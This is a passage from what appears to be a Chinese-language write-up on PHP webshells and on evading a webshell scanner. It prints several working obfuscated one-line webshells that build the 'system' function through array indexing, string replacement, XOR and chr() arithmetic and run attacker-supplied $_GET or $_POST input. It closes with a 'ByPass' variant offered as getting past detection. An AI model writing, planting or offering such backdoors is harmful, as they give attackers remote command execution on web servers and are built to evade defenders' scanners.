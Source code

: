一、自定义函数混淆字符串类型：

```php
function confusion($a){
    $s = ['A','a','b', 'y', 's', 's', 'T', 'e', 'a', 'm'];
    $tmp = "";
    while ($a>10) {
        $tmp .= $s[$a%10];
        $a = $a/10;
    }
    return $tmp.$s[$a];
}
$f = confusion(976534);         //sysTem（高危函数）
$f($_POST['aabyss']);           //sysTem($_POST['aabyss']);
```

二、一维数组绕过：

```php
$f = substr_replace("systxx","em",4);         //system（高危函数）
$z = array($array = array('a'=>$f($_GET['aabyss'])));
var_dump($z);
```

三、异或+变换参数绕过：

```php
$_='$<>/'^'{{{{';@${$_}[_](@${$_}[__]);
```

等等，还有许多以 `变量(调用外部参数)` 来执行恶意命令的WebShell都能查杀，说明作者对参数变形和PHP参数调用的相关姿势烂熟于心啊哈哈

# 3# 查杀ByPass

既然直接用变量作为函数执行不行的话，那可以曲线救国，比如：

```php
//ASCII编码解密后为system高危函数
$f =  chr(114+1).chr(120+1).chr(116-1).chr(117-1).chr(100+1).chr(108+1);
call_user_func_array($f, array($_GET['aabyss']));
```

通过这个简单的样例，采用回调函数的手法，来执行对应的命令
